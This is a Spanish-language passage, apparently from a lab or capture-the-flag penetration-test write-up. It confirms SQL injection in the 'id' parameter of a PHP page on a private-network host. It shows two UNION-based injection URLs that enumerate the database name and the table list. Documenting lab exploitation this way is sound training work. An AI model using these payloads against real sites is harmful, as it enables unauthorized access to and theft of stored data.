 **✅ Confirmación:** El parámetro `id` es vulnerable a SQL Injection.

### 3.9 Explotación de SQL Injection

**Enumeración de base de datos:**
```sql
http://192.168.0.248/site.php?id=2 union select 1,database()-- -
```

![Base de datos identificada](Pasted%20image%2020251010004006.png)

**Enumeración de tablas:**
```sql
http://192.168.0.248/site.php?id=2 union select 1,table_name from information_schema.tables-- -
```

![Tablas enumeradas](Pasted%20image%2020251010004433.png)
